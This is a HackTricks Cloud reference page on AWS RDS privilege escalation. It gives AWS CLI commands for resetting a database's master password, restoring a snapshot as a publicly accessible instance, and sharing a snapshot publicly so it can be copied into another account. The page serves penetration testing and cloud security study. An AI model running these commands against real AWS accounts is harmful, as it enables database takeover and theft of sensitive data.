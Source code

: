 # AWS - RDS Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Relational Database Service

For more information about RDS check:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

With that permission an attacker can modify the password of the master user, and the login inside the database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
You will need to be able to **contact to the database** (they are usually only accessible from inside networks).
{% endhint %}

**Potential Impact:** Find sensitive info inside the databases.

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

If the attacker has enough permissions, he could make a **DB publicly accessible** by creating a snapshot of the DB, and then a publicly accessible DB from the snapshot.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Connect to the new DB after a few mins
```

### `rds:CreateDBSnapshot`, `rds:ModifyDBSnapshotAttribute`

An attacker with these permissions could **create an snapshot of a DB** and make it **publicly** **available**. Then, he could just create in his own account a DB from that snapshot.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify other specific accounts instead of all to give access only to specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
